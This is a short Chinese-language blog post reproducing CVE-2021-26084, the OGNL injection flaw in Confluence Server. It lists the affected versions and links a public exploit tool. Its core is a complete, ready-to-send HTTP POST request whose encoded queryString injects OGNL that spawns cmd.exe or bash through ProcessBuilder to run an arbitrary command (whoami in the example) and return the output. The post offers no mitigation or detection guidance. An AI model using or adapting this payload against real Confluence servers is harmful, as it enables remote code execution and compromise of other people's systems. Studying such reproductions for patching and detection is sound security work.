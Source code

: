 
# [CVE-2021-26084(Confluence) 漏洞复现](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

 [↓↓↓](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  
  
2021-09-02  
  
[↑↑↑](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  [漏洞复现](https://ad-calcium.github.io/categories/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)   [漏洞复现](https://ad-calcium.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/) [Confluence](https://ad-calcium.github.io/tags/confluence/) 字数统计：193 字 阅读时长：1 分

## 0x01 漏洞介绍

Confluence Server Webwork OGNL 注入漏洞（CVE-2021-26084），远程攻击者在经过身份验证或在特定环境下未经身份验证的情况下，可构造 OGNL 表达式进行注入，实现在 Confluence Server 或 Data Center 上执行任意代码。

## 0x02 影响范围

**受影响版本**

-   Confluence < 6.13.23
-   6.14.0 ≤ Confluence < 7.4.11
-   7.5.0 ≤ Confluence < 7.11.6
-   7.12.0 ≤ Confluence < 7.12.5
-   Confluence < 7.13.0

## 0x03 利用工具

```plain
https://github.com/h3v0x/CVE-2021-26084_Confluence
```

## 0x03 漏洞复现

漏洞 payload

```plain
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Host: xxxxxxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=4FBEAB3342C1B2F544CB4AA67A7ADA6F
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1072

queryString=aaaaaaaa%5Cu0027%2B%7BClass.forName%28%5Cu0027javax.script.ScriptEngineManager%5Cu0027%29.newInstance%28%29.getEngineByName%28%5Cu0027JavaScript%5Cu0027%29.%5Cu0065val%28%5Cu0027var+isWin+%3D+java.lang.System.getProperty%28%5Cu0022os.name%5Cu0022%29.toLowerCase%28%29.contains%28%5Cu0022win%5Cu0022%29%3B+var+cmd+%3D+new+java.lang.String%28%5Cu0022whoami%5Cu0022%29%3Bvar+p+%3D+new+java.lang.ProcessBuilder%28%29%3B+if%28isWin%29%7Bp.command%28%5Cu0022cmd.exe%5Cu0022%2C+%5Cu0022%2Fc%5Cu0022%2C+cmd%29%3B+%7D+else%7Bp.command%28%5Cu0022bash%5Cu0022%2C+%5Cu0022-c%5Cu0022%2C+cmd%29%3B+%7Dp.redirectErrorStream%28true%29%3B+var+process%3D+p.start%28%29%3B+var+inputStreamReader+%3D+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3B+var+bufferedReader+%3D+new+java.io.BufferedReader%28inputStreamReader%29%3B+var+line+%3D+%5Cu0022%5Cu0022%3B+var+output+%3D+%5Cu0022%5Cu0022%3B+while%28%28line+%3D+bufferedReader.readLine%28%29%29+%21%3D+null%29%7Boutput+%3D+output+%2B+line+%2B+java.lang.Character.toString%2810%29%3B+%7D%5Cu0027%29%7D%2B%5Cu0027
```

![image-20210902101628474](assets/1699241215-3d5b9ba380647fdb1366387f85a597ee.png)

> -   **本文链接：** [https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/ "CVE-2021-26084(Confluence) 漏洞复现")
> -   **License:** [CC BY 4.0 CN](http://creativecommons.org/licenses/by/4.0/deed.zh)

[↓↓↓](https://github.com/ad-calcium)  
  
![](assets/1699241215-57d10927a6533b3fdb14adfa7ddc7aae.png)  
  
[↑↑↑](https://github.com/ad-calcium)

### [AD 钙奶](https://github.com/ad-calcium)

Good Good Study, Day Day Up~

-     [下一篇](https://ad-calcium.github.io/2021/09/smb%E5%A4%96%E5%B8%A6%E6%B3%A8%E5%85%A5/ "SMB外带注入")
-   [上一篇](https://ad-calcium.github.io/2021/09/windows%E6%8A%93%E5%8F%96hash%E6%80%BB%E7%BB%93/ "windows抓取hash总结")  
-   [↓↓↓](#collapseToc "文章目录")  
      
    \[ 文章目录 \]  
      
    [↑↑↑](#collapseToc "文章目录")
    

[](http://service.weibo.com/share/share.php?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&pic=https%3A%2F%2Fad-calcium.github.io%2Favatar.png&appkey=)[](http://connect.qq.com/widget/shareqq/index.html?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&source=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&desc=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&pics=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](javascript:)[](https://www.facebook.com/sharer/sharer.php?u=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&description=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&caption={{SUBHEAD}}&link=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&picture=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](https://twitter.com/intent/tweet?text=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&via=https%3A%2F%2Fad-calcium.github.io)
